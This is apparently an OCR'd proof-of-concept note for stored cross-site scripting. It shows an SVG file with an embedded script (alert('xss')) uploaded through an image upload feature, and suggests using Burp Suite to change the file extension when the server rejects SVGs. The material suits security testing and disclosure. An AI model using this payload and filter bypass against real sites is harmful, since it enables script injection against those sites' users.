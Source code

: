 1. You have pic upload funtion 
2. Create a file like exploit.svg like 

       <?xml version="1.0" standalone="no"?>
       <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
       <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
       <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
       <script type="text/javascript">
       alert("xss");
       </script>
       </svg>       

3. Server is error svg file not accept use burp suite and change the extention 










